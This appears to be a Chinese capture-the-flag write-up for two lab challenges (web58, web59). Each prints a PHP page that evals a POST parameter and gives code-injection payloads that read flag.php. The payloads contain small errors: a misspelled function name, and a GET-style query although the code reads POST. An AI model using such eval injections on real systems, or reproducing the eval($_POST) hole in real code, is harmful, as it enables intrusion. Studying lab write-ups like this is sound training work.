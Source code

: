 




## web58 无回显
**题目描述**

```php
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
} 
```
---
**题目分析**

      回显的代码未告诉禁用了哪些东西，只能一个一个尝试

---
**payload**

```php
解法一：url/?c=file_get_contents('flag.php');
解法二：url/?c=show_cource('flag.php');
```
---




## web59 无回显2
**题目描述**

```php
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
} 
```
---
**题目分析**

        尝试后发现禁用了show*source（）的方式，但未禁用file\_get\_contents()*

---
**payload**

```php
url/?c=file_get_contents('flag.php');
```
---
